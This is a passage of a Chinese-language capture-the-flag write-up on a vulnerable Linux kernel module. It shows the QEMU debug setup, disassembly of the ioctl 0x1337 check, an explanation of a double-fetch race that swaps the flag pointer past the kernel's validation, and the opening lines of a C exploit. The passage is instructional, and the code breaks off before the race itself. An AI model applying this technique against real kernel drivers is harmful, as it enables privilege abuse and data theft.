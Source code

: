 记得把`init`的`root`权限改回去，然后再启动shell文件里加入调试选项；

```
qemu-system-x86_64 \
-m 256M -smp 2,cores=2,threads=1  \
-kernel ./vmlinuz-4.15.0-22-generic \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet" \
-cpu qemu64 \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  -enable-kvm  \
-s
```

使用target来连接；

```
target remote localhost:1234
```

开始调试后，看一下汇编代码，发现`&current_task+0x1358`被mov到了rdx，执行完该汇编代码后，查看rdx的值即可；

```
.text:000000000000006A loc_6A:                                 ; CODE XREF: baby_ioctl+28↑j
.text:000000000000006A                 cmp     dword ptr [rbp-64h], 1337h
.text:0000000000000071                 jnz     loc_1B6
.text:0000000000000077                 mov     rax, gs:current_task
.text:0000000000000080                 mov     [rbp-30h], rax
.text:0000000000000084                 mov     rax, [rbp-30h]
.text:0000000000000088                 mov     rdx, [rax+1358h]           # &current_task+0x1358 here
.text:000000000000008F                 mov     rax, [rbp-70h]
.text:0000000000000093                 mov     esi, 10h
.text:0000000000000098                 mov     rdi, rax
.text:000000000000009B                 call    __chk_range_not_ok
```

可以看到结果就是`0x7ffffffff000`，实际上，这里在判断：

- 数据的指针是否指向用户态？
- 结构体flag的指针是否指向用户态？
- 结构体flag长度是否等于硬编码的flag长度？

### pwn

`double-fecth`的使用：如果先**构造一个user_data**来**通过内核态的验证**（此时user_data还是在用户态的，只是把地址送进去了），然后起一个evil thread来**不断劫持用户态的user_data**结构体中的flag指针，使其指向真正的flag的位置。同时，不停的用ioctl发0x1337指令，使得指令流进入else if，进行条件判断。那么就能通过double fetch的条件竞争bypass内核对flag的验证，最后打印出真正的flag；

```c
// gcc -static exploit.c -lpthread -o exploit
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
 
int TryTime=1000;
unsigned long long flag_addr;       //target flag address
int finish=1;
 
struct attr{
    char *flag;
    size_t len;
};
```